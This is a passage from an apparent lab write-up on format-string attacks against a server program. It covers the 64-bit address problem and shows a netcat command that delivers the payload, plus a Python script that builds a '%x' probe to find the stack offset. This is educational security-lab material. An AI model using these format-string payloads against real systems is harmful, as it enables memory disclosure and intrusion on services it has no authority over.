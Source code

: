then run the attack.

```bash
python3 badfile.py
cat badfile | nc -w2 10.9.0.5 9090
```

![task-4-c](https://github.com/iukadike/blog/assets/58455326/76c5f430-e5b1-4e6d-9c75-7f5ddb46a5c6)



<br>

### Attacking the 64-bit Server Program

Attacking a 64-bit server is tricky because the memory address is 8 bytes with zeros in it. Only the address from 0x00 through 0x00007FFFFFFFFFFF is allowed, and every 64-bit address has the highest two bytes as zeros. This causes a problem, as when `printf()` parses the format string, it will stop the parsing when it sees a zero.

We know that zeros will terminate copying to memory if strpcy() is used, but the vulnerable program does not make use of strcpy(). This means we can have zeros in our input, but because of the `printf()`, we will have to place them where they cannot interrupt `printf()` parsing the format string.

A method I have taken to solve this problem is to place the 64-bit addresses after the format specifiers in the format string. Remember that during the 32-bit attack, the 32-bit addresses were placed at the beginning of the format string.


#### Printing Out Stack Data

When we use the "%x" format specifier, it instructs the program to access a memory location and print out the hex value of the contents in that memory location. For this task, we would need to build our input to the server such that when the values in memory are printed, we can tell the offset from the beginning of the stack.

Thus, our input will start with a value we know, i.e., AAAAAAAA = \x41\x41\x41\x41\x41\x41\x41\x41, and will be made up of an increasing number of "%x" until we are able to see the value \x41\x41\x41\x41 printed out.

```python
#!/usr/bin/python3
import sys

# Start input with a content we can easily recognize
content = ("AAAAAAAA").encode('latin-1')

# Append format specifiers
content += ("_%x" * 40).encode('latin-1')

# Append a newline
content += ("\n").encode('latin-1')


# Write the content to badfile
with open('badfile', 'wb') as f:
  print(f"writing {len(content)} bytes to badfile...")
  f.write(content)
```
